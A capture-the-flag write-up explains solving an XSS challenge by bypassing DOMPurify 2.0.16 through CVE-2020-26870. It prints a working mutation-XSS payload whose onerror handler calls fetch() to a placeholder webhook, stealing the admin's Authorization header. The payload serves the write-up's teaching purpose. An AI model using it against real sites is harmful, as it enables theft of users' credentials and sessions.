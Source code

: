 # eXample Sending Service
> As part of Halogen's cybersecurity exam, Blahaj has to get the flag only accessible by the administrator. But Blahaj cannot even type with his flippers, help him pass!
## Solution
As hinted in the title, this challenge is XSS. However, the message is sanitized using DOM Purify. Whatever shall we do 😭
```js
// Retrieve message details and sanitize the messages
const message = {
    name: DOMPurify.sanitize(req.body['name']),
    title: DOMPurify.sanitize(req.body['title']),
    body: DOMPurify.sanitize(req.body['message']),
}
```
This is where we pay attention to the `package.json`, and the fact that DOM Purify is set to version `2.0.16`. There is actually an XSS bypass for this version, tagged [CVE-2020-26870](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/), which works due to DOM elements being read differently in DOMPurify and most browsers. By exploiting this, we can just quickly send an XSS payload to the admin and steal the admin's Authorization header.

Since the token is in headers, CORS mode has to be explicitly enabled on your webhook, or configured manually if using custom implementation. Check <https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS> for more info.

Payload: `<math><mtext><table><mglyph><style><math><table id="</table>"><img src onerror="fetch('https://<your url>')">`
And by looking at our url, we see the signed header that we can use to access the flag directly on `/flag`.

Flag: `blahaj{d1d_y0u_f0rg0r_t0_upd4t3?}`

